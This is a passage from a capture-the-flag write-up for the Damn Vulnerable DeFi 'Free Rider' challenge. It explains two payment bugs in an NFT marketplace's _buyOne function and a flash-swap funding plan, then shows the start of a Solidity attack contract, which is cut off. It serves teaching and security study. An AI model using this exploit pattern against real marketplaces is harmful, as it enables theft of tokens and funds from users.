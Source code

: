 The vulnerable function is `_buyOne`; in particular, there are `2` bugs in this function:
1. the token seller will never receive the amount because the `sendValue` function (line `80`) is called after the token ownership is transferred (line `77`). It means that the new owner of the token will also receive the amount offered for that token
2. `msg.value` is checked only for a single token offer (line `72`)  and not for the total amount of offers. Since `_buyOne` is executed inside a loop, if an attacker has at least the balance for the maximum token price, they can take ownership of all the tokens even if the sum of all their prices is greater. Since the NFT price is `15 ETH`, we need at least `15 ETH` to steal all the NFT (instead of `15*6=90 ETH`).

#### How can we obtain some ETH to buy the NFT tokens?

We start with `0.5 ETH` balance but we need at least `15 ETH` to take all the tokens successfully. If we take a closer look at the challenge [setup file](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/free-rider/free-rider.challenge.js), we can see that a UniswapV2 pair is deployed. After some research, I found that we can request flash swaps (i.e. flash loans). Using flash swaps, we can request the amount needed to perform the attack as long as we pay the amount back plus an additional fee of `~0.3%`.

## 3) Solution
The solution consists of the following steps:
- swap `15 WETH` using the Uniswap pair
- to receive the flash loan, we need to implement the `uniswapV2Call` function
- insider the `uniswapV2Call` function, withdraw the `15 ETH`
- call the `buyMany` function by providing the list of tokens IDs (i.e. `0,1,2,3,4,5`) with an offer of `15 ETH` each
- deposit back the amount requested plus an additional fee of `~0.3%`
- once the execution of `uniswapV2Call` is completed, we can transfer all the tokens to the buyer and the ETH we obtained from selling the tokens to our attacker address (even if it's not needed to solve this challenge)	

`AttackFreeRider.sol`:
```solidity

// ...
/**
 * @title AttackFreeRider
 */
contract AttackFreeRider {

    IUniswapV2Factory factory;
    IMarketplace marketplace;
    address TOKEN;
    address WETH;
    uint256 price;

    constructor(uint256 _price, address _factory, address _marketplace, address _token, address _weth) {
      factory = IUniswapV2Factory(_factory);
      marketplace = IMarketplace(_marketplace);
      TOKEN = _token;
      WETH = _weth;
      price = _price;
    }

    function run(address _attacker, address _buyer) external {
        address pair = factory.getPair(TOKEN, WETH);

        bytes memory data = abi.encode(WETH, price);

        IUniswapV2Pair(pair).swap(price, 0, address(this), data);
        
        // send tokens to buyer and receive ETH reward
        for (uint i=0; i<6; i++) {
```
